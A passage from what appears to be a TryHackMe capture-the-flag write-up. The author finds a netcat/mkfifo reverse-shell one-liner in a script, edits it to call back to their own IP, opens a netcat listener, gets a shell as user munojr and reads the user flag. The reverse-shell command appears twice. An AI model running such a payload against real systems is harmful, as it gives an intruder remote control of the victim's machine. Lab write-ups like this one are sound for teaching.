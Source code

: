 ```

start

startupdate

exitUpdate

```

-- -

This script has some update functions but there is reverse shell payload

```

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.17.17.62 8000 >/tmp/f

```

-- -

We can use the payload and listen for the munojr shell, in my case i changed into the following ip address

```

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.11.230 1122 >/tmp/f

```

and then listening to with netcat.

  

>When you start netcat you have to wait for one minute so that you can have a reverse shell.

  
  

```

┌──(gemstone㉿kali)-[~/C7F5/thm/chain]

└─$ nc -nvlp 1122

listening on [any] 1122 ...

connect to [10.9.11.230] from (UNKNOWN) [10.10.8.200] 52262

/bin/sh: 0: can't access tty; job control turned off

$

```

We now have a shell then we will stabilize as usual and after it lets read the user.txt file first.

  

```

munojr@owaspQuiz:~$ ls

todo.txt user.txt

munojr@owaspQuiz:~$ cat user.txt

THM{REDACTED}

```
